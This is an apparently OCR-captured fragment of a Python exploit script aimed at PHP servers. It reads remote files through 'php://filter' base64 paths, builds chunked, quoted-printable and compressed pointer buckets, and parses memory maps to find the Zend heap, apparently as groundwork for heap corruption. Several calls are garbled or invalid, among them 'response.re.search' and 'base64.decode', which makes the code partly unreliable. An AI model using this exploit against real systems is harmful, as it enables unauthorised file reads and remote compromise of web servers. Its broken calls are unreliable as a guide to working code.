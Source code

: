 ```python
    path = f"php://filter/convert.base64-encode/resource={path}"
    response = send(path, url)
    data = response.re.search(b"File contents: (.*)", flags=re.S).group(1)
    return base64.decode(data)

def compress(data):
    return zlib.compress(data, 9)[2:-4]

def b64(data, misalign = True):
    return base64.encode(data).encode()

def compressed_bucket(data):
    return chunked_chunk(data, 0x8000)

def qpe(data):
    return "".join(f"={x:02x}" for x in data).upper().encode()

def ptr_bucket(*ptrs, size = None):
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)
    return bucket

def chunked_chunk(data, size = None):
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"

def download_file(remote_path, local_path):
    data = get_file(remote_path)
    Path(local_path).write_bytes(data)

def _get_region(regions, *names):
    for region in regions:
        if any(name in region["path"] for name in names):
            return region
    return None

def find_main_heap(regions):
    heaps = []
    for region in reversed(regions):
        is_heap_region = (
            region["permissions"] == "rw-p" and
            (region["stop"] - region["start"]) >= heap_size and
            region["stop"] & (heap_size - 1) == 0 and
            region["path"] in ("", "[anon:zend_alloc]")
        )
        if is_heap_region:
            heap_address = region["stop"] - heap_size + 0x40
            heaps.append(heap_address)
    first = heaps[0]
    print(f"Using {hex(first)} as heap")
    return first

def get_file(path):
    return download(path, url)

def get_regions():
```